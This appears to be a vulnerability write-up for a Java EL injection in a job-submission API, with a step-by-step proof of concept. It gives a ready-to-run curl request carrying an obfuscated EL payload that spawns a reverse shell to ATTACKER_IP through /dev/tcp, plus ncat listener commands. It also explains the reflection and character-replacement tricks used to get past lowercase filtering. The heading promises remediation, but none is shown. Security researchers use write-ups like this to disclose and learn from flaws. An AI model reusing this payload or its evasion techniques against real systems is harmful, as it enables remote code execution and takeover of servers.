

Step 4: Exploit and remediation

Step 4.1: PoC

To get a shell, you'll need a system with ports 5060, 2222 free(and allowed through firewall). Also DO NOT change the port numbers anywhere as they _might_ interfere with payload logic

Replace the following texts-
- HOST_IP: with host IP Address or domain name
- ATTACKER_IP: with your IP Address or domain name

### Step 1
Now first get on 2 shells on your system and run-
```bash
ncat -k -l -p 5060
ncat -k -l -p 2222
```
(I like ncat, but netcat's cool as well)

### Step 2
Now run this curl request from anywhere and replace HOST_IP and ATTACKER_IP
```bash
    curl --location --request POST 'HOST_IP:7001/api/v3/jobs' \
    --header 'Content-Type: application/json' \
    --data-raw '{
        "container": {
            "softConstraints": {
                "constraints": {
                    "#{'\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''print(1);'\'').class.methods[3].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\'').class.methods[7].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))).class.methods[1].invoke('\'''\''.class.class.methods[14].invoke('\'''\''.class.class.methods[0].invoke('\'''\''.class, '\''javax.script.1cript2ngine3anager'\''.replace('\''1'\'', 83).replace('\''2'\'', 69).replace('\''3'\'', 77))), '\''js'\''), '\''java.lang.8untime.get9untime().exec(\" /bin/bash -c 'sh\</dev/tcp/ATTACKER_IP/5060\>/dev/tcp/ATTACKER_IP/2222' \")'\''.replace('\''8'\'', 82).replace('\''9'\'', 82))) + '\'''\''}": "lol"
                }
            }
        },
        "service": {
            "retryPolicy": {
                "immediate": {
                    "retries": 10
                }
            }
        }
    }'
```

### Step 3
Run any `sh` command into the `5060` ncat connection

### Step 4
???

### Step 5

#### PROFIT



### So what does that all gobbled up thingy do?

It is time for me to know more about Java EL Injection and [this awesome report](https://www.exploit-db.com/docs/english/46303-remote-code-execution-with-el-injection-vulnerabilities.pdf) on exploit DB taught me all.

After experimenting I observed that only Deferred EL Expressions seem to work and they are rather troublesome to work with. The main problem being-

> Deferred evaluation expressions take the form #{expr} and can be evaluated at other phases of a page lifecycle as defined by whatever technology is using the expression.
> - [Oracle Docs](https://docs.oracle.com/javaee/6/tutorial/doc/bnahr.html)

So I cannot use Multiple line payloads...

After trying `#{7*7}` weirdly I couldn't get any other testing payload to work, then I struck this-
```
#{''.class + ''}
```
andin the output I got- 
```
[class java.lang.String]
```

So what must have happened is that by default all expressions aren't being evluated but when they are addded with a `''` the `toString()` method is called. Similar to how this works- 
```java
System.out.println(1 + " one");
```

Next blocker is that sending UpperCase letters in the payload seems to break everything, probably everything is being converted to lowercase before execution. But there's a workaround for this 😉. To see that let me clean up the relevant part of my payload first.

```java
''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js').class.registerEngineMimeType.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js'), 'print(1);').class.getEngineByExtension.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js').class.registerEngineMimeType.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')).class.getBindings.invoke(''.class.class.newInstance.invoke(''.class.class.forName.invoke(''.class, 'javax.script.ScriptEngineManager')), 'js'), 'java.lang.Runtime.getRuntime().exec(\" /bin/bash -c sh</dev/tcp/ATTACKER_IP/5060>/dev/tcp/ATTACKER_IP/2222 \")')'
```

Which is a twisted way to run-
```java
${request.getClass().forName("javax.script.ScriptEngineManager").newInstance().getEngineByName("js").eval("java.lang.Runtime.getRuntime().exec(\\\"/bin/bash -c sh</dev/tcp/ATTACKER_IP/5060>/dev/tcp/ATTACKER_IP/2222\\\")"))}'
```
(this payload was taken from that expoit DB report)

To deal with the UpperCase issue I came up with 2 solutions-

1. For Methods with uppercase letters in their name, I accessed using the `methods` array belonging to any `.class` object and using `invoke` reflection API to run it, eg `''.class.class.methods[14]` is used to access `java.lang.Class.forName(java.lang.String)`. Which method lies at which index? This came in handy in listing all of them- 

```java
import java.lang.reflect.*; 

public class HelloWorld{

     public static void main(String []args){
        Class a = Class.class;
        for (int i = 0; i< a.getMethods().length; i++)
        System.out.println(i + " -> " + a.getMethods()[i] );
     }
}
```

2. For Strings with uppercase letters, I though of various ways after going through all of the methods the `String` class gives and various Java gimmicks- 
  - `'aaa'.concat(B)` to append an ascii value or ascii value tyecasted to char
  - `aaa\u0042`Escaping Unicode characters
  - `'aaa'+(char)66` adding typecasted char directly to string
  - `'aaa1'.replace('1', 66)` replacing a dummy value with the ascii value

I spent hell lot of time on the first 3 but the last method, which seems the most absurd, worked... :/
So, these expressions on my payload should start making sense-
```java
'javax.script.1cript2ngine3anager'.replace('1', 83).replace('2', 69).replace('3', 77)
```

After getting `exec()` working I faced another blocker, `sh` doesn't give input redirection and piping, and `/bin/bash -c "command"` was rejecting spaces in the `command`. After some googling and struck [gold](http://zoczus.blogspot.com/2013/10/en-unix-rce-without-spaces.html)
This gave me an ez RCE as the `exec()` process is spawned as an independent process and I could freely communicate with `sh` over network :)
